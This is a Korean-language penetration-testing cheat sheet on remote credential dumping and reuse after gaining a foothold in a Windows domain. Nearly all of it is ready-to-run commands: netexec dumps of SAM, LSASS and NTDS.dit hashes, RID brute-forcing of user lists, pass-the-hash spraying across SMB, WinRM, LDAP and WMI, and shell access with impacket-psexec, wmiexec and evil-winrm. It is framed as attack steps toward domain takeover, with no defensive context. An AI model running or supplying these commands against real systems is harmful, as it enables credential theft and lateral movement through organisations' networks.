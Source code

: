 


# 원격 크리덴셜 덤프 및 활용 가이드

네트워크의 한 시스템에 대한 접근 권한을 획득했다면, 다음 목표는 그 권한을 발판 삼아 다른 시스템의 크리덴셜(해시, 티켓, 비밀번호)을 원격으로 탈취하여 공격 범위를 넓히는 것입니다. 이 가이드는 `netexec`과 `impacket`을 중심으로 원격 크리덴셜 덤프와 활용법을 설명합니다.

---

### **1. 원격 해시 덤프 (Remote Hash Dumping)**

- **목표:** 현재 보유한 자격증명을 사용하여 원격 시스템의 다양한 위치에 저장된 비밀번호 해시를 추출합니다.

#### **방법 A: SAM 하이브 덤프 (로컬 계정)**
- **설명:** 원격 시스템의 로컬 관리자 권한이 있을 때, SAM 데이터베이스를 덤프하여 로컬 계정들의 NTLM 해시를 획득합니다.

```bash title="netexec --sam"
netexec smb $target -u <local_admin> -p <password> --sam | fgrep -v '[' | awk -F: '{print $4}' | tee dumped_hashes.txt
```

#### **방법 B: LSASS 메모리 덤프 (로그온된 계정)**
- **설명:** 원격 시스템의 로컬 관리자 권한으로 LSASS 프로세스 메모리를 덤프합니다. 최근에 로그온한 도메인 계정의 해시나 평문 비밀번호가 메모리에 남아있을 수 있습니다.

```bash title="netexec -M lsassy"
netexec smb $target -u <local_admin> -p <password> -M lsassy | fgrep '[' | awk '{print $6}' >> dumped_hashes.txt
```

#### **방법 C: NTDS.dit 덤프 (모든 도메인 계정)**
- **설명:** 도메인 컨트롤러(DC)의 관리자 권한이 있을 때, Active Directory의 모든 사용자 및 컴퓨터 계정의 해시가 저장된 `NTDS.dit` 데이터베이스 파일을 덤프합니다. 도메인 장악의 핵심 단계입니다.

```bash title="netexec -M ntdsutil"
netexec smb <DC_IP> -u <domain_admin> -p <password> -M ntdsutil | fgrep -v '[' | awk -F: '{print $4}' >> dumped_hashes.txt
```

#### **방법 D: rid-brute**
- **설명:**  도메인의 모든 사용자 목록을 가져옵니다.

```bash title="netexec --rid-brute"
netexec smb $target -u 'user1' -p 'Password1!' --rid-brute | grep -i 'sidtypeuser' | awk '{print$6}' | cut -d '\' -f2 | tee users.txt
```

---

### **2. 수집된 크리덴셜 정리 및 재사용**

- **목표:** 덤프 과정에서 지저분하게 수집된 해시들을 정리하고, 이를 다른 시스템에 대한 공격에 재사용하여 측면 이동(Lateral Movement)을 시도합니다.

#### **1단계: 해시 및 사용자 목록 정리**
- 덤프된 결과에서 순수한 NTLM 해시와 사용자 이름만 추출하여 별도의 파일로 저장합니다.

```bash(title="수집된 결과물 정리")
# 덤프 결과에서 해시만 추출하여 정렬 및 중복 제거
awk -F: '{print $4}' dumped_hashes.txt | sort -u > unique_hashes.txt

awk 'NF {print $1}' dumped_hashes.txt | sort | uniq | tee unique_hashes.txt

# 덤프 결과에서 사용자 이름만 추출
awk '{print $1}' dumped_users.txt > users.txt
```

#### **2단계: 크리덴셜 스프레이 (Credential Spraying)**
- 정리된 사용자 목록과 해시 목록을 사용하여 네트워크의 다른 시스템들에 대규모 인증을 시도합니다.

```bash(title="netexec - 해시 스프레이")
# 여러 프로토콜에 대해 수집한 해시로 인증 시도
netexec smb $target -u users.txt -H unique_hashes.txt --continue-on-success
netexec winrm $target -u users.txt -H unique_hashes.txt --continue-on-success
netexec ldap $target -u users.txt -H unique_hashes.txt --continue-on-success
netexec wmi $target -u users.txt -H unique_hashes.txt --continue-on-success
```

---

### **3. 셸 획득**

- **목표:** 새로 찾아낸 유효한 자격증명을 사용하여 다른 시스템의 셸을 획득합니다.

```bash(title="impacket-psexec: SMB를 이용한 셸 획득")
rlwrap impacket-psexec <domain>/<user>@$new_target -hashes :<ntlm_hash>
```

```bash(title="evil-winrm: WinRM을 이용한 셸 획득")
evil-winrm -i $new_target -u <user> -H <ntlm_hash>
```

```bash(title="impacket-wmiexec: WMI를 이용한 셸 획득")
rlwrap impacket-wmiexec <domain>/<user>@$new_target -hashes :<ntlm_hash>
```

